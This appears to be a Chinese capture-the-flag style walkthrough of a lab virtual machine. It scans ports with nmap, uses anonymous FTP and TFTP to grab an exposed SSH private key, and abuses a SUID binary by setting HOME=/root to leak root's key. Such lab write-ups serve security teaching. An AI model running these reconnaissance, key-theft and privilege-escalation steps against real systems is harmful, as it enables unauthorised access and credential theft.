 主机探活

```
nmap -sn 192.168.56.0/24
```

![image-20250604161003386](./assets/image-20250604161003386.png)

确定靶机ip：192.168.56.109



端口扫描

```
set ip 192.168.56.109
echo $ip
nmap -sT -p- --min-rate 10000 $ip -oN ./portscan
```

![image-20250604161104559](./assets/image-20250604161104559.png)

开放了21，22，80端口



提取端口信息

```
set port $(cat ./portscan | grep open | awk -F'/' '{print $1}' | paste -sd,)
```

![image-20250604161220796](./assets/image-20250604161220796.png)



详细结果扫描

```
sudo nmao -sCV -O -p $port $ip -oN ./detailscan
```

![image-20250604161329969](./assets/image-20250604161329969.png)

分析结果：

- 21：ftp 允许匿名登录
- 22：ssh
- 80：http



UDP扫描

```
sudo nmap -sU --top-port 20 $ip -oN ./udpscan
```

![image-20250604161538770](./assets/image-20250604161538770.png)

tftp端口开放或是过滤状态



访问192.168.56.109

![image-20250604161638321](./assets/image-20250604161638321.png)

出现用户：alexia

并提示id_rsa暴露



目录扫描无结果



匿名登录lftp服务

```
lftp $ip anonymous
ls -al
```

![image-20250604161836120](./assets/image-20250604161836120.png)

存在index.html，但是没内容

存在.web文件夹，其中存在index.html，对应web首页内容



尝试上传php文件

```
echo '<?php echo 123; ?>' > 1.php
php 1.php
```

![image-20250604162110060](./assets/image-20250604162110060.png)

上传

```
cd .web
put 1.php
```

![image-20250604162158068](./assets/image-20250604162158068.png)

访问http://192.168.56.109/1.php

没有解析php代码

```
curl http://192.168.56.109/1.php
```

![image-20250604162247120](./assets/image-20250604162247120.png)



结合前面的提示，id_rsa暴露，且可能存在tftp服务

```
tftp $ip
get id_rsa
```

获取id_rsa文件

![image-20250604162420210](./assets/image-20250604162420210.png)



利用私钥文件登录alexia用户

```
chmod 400 id_rsa
ssh alexia@$ip -i id_rsa
```

![image-20250604162534678](./assets/image-20250604162534678.png)



得到第一个flag

![image-20250604162600598](./assets/image-20250604162600598.png)



查找suid位

```
find / -perm -4000 2>/dev/null
```

![image-20250604162636296](./assets/image-20250604162636296.png)

存在showMetheKey文件

```
file /opt/showMetheKey
```

![image-20250604162726619](./assets/image-20250604162726619.png)

执行该文件

```
/opt/showMetheKey
```

![image-20250604162751598](./assets/image-20250604162751598.png)

获取用户私钥

对比从tftp中获取的id_rsa，内容一致

![image-20250604162839211](./assets/image-20250604162839211.png)

将showMetheKey传回本地

```
scp /opt/showMetheKey ra1n3@192.168.56.107:/home/ra1n3/share
```

![image-20250604162952041](./assets/image-20250604162952041.png)

ida简单查看

![image-20250604163248901](./assets/image-20250604163248901.png)

查看$HOME/.ssh/id_rsa

那么如果我们将$HOME定义为/root，就可以尝试读取root目录下的id_rsa

```
exoirt HOME=/root
echo $HOME
```

![image-20250604163620708](./assets/image-20250604163620708.png)

```
/opt/showMetheKey > id_rsa
cat id_rsa
```

![image-20250604163701095](./assets/image-20250604163701095.png)

成功读取root用户私钥



```
chmod 400 id_rsa
ssh root@127.0.0.1 -i id_rsa
```

![image-20250604163752952](./assets/image-20250604163752952.png)

登录root用户



![image-20250604163831056](./assets/image-20250604163831056.png)

得到flag
